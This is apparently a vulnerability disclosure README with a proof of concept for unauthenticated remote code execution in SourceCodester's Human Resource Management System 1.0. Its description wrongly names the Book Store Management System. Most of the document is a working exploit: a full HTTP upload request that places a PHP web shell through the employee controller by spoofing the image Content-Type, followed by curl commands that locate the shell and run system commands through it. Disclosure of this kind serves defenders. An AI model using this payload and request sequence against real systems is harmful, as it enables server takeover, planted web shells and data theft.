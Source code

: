 # Human Resource Management System 1.0 Remote Code Execution (Unauthenticated)

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows an unauthenticated attacker bypass the upload file restriction and execute arbitrary code via a crafted PHP file.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/controller/employee.php

Proof of Concept:

### 1. Bypass File upload restriction

Bypass check type using `Content-Type: image/jpg` in the upload form.

![](images/bypass-restriction.png)

### 2. Upload web shell without authentication

At `Add Employee` function, we discover an Profile Image upload button

![](images/function-add-employee.png)

After analysis the source code, we know that `/hrm/controller/employee.php` allow an unauthorized user access and upload image file.

Let's upload file webshell `leecybersec.php` with `Content-Type: image/jpg` without any unauthorization.

``` txt
POST /hrm/controller/employee.php?empedit= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33759207513109230905790184197
Content-Length: 673
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/hrm/employeeadd.php
Upgrade-Insecure-Requests: 1

-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="empid"

123
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="pfimg"; filename="leecybersec.php"
Content-Type: image/jpg

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="submit"


-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="imagefilename"


-----------------------------33759207513109230905790184197--
```

![](images/sent-payload.png)

### 3. Find the uploaded webshell file and get RCE

The webshell name will be added with random number and stored at `image` folder.

![](images/file-path-webshell.png)

Go to /hrm/image/ and get webshell name

``` bash
curl localhost/hrm/image/
```

Get remote code execution

``` bash
curl localhost/hrm/image/247245leecybersec.php?cmd=id
```

![](images/find-webshell-rce.png)